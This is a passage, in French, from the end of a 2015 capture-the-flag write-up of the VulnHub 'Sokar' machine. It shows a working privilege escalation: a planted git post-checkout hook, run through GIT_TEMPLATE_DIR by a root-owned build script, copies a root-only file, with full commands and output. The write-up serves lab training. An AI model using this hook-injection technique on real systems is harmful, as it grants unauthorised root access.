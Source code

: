 ```plain
|     V  u  l  n  H  u  b   ! !     |
| ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ |
|___________________________________|

=====================================
| Congratulations on beating Sokar! |
|                                   |
|  Massive shoutout to g0tmi1k and  |
| the entire community which makes  |
|         VulnHub possible!         |
|                                   |
|    rasta_mouse (@_RastaMouse)     |
=====================================
```

L'autre solution sans doute plus propre et de définir un hook Git qui concerne la commande clone, en particulier *post-checkout*.  

Comme on n'a pas d'accès pour écrire directement dans les hooks on fait une copie du dossier et on spécifie le chemin en environnement :  

```plain
[apophis@sokar ~]$ cp -r /usr/share/git-core/templates/ mytemplates
[apophis@sokar ~]$ cd mytemplates/hooks
[apophis@sokar hooks]$ echo '#!/bin/bash' > post-checkout
[apophis@sokar hooks]$ echo 'cp /root/flag /tmp/flag2' >> post-checkout
[apophis@sokar hooks]$ echo 'chown apophis.apophis /tmp/flag2' >> post-checkout
[apophis@sokar hooks]$ chmod +x post-checkout
[apophis@sokar hooks]$ cd ../..
[apophis@sokar ~]$ GIT_TEMPLATE_DIR=/home/apophis/mytemplates/ ./build
Build? (Y/N) Y
Y
Cloning into '/mnt/secret-project'...
Password: p4ssw0rd

remote: Counting objects: 4, done.        
remote: Compressing objects: 100% (4/4), done.        
remote: Total 4 (delta 0), reused 0 (delta 0)        s     
Receiving objects: 100% (4/4), 1.13 MiB | 350.00 KiB/s, done.
Checking connectivity... done.
[apophis@sokar ~]$ ls -l /tmp/flag2
-rw-r--r-- 1 apophis apophis 837 Mar 10 21:18 /tmp/flag2
```

Victory ! Conclusion de tout ça : l'IPv6 ça a du bon :p

*Published March 13 2015 at 18 03*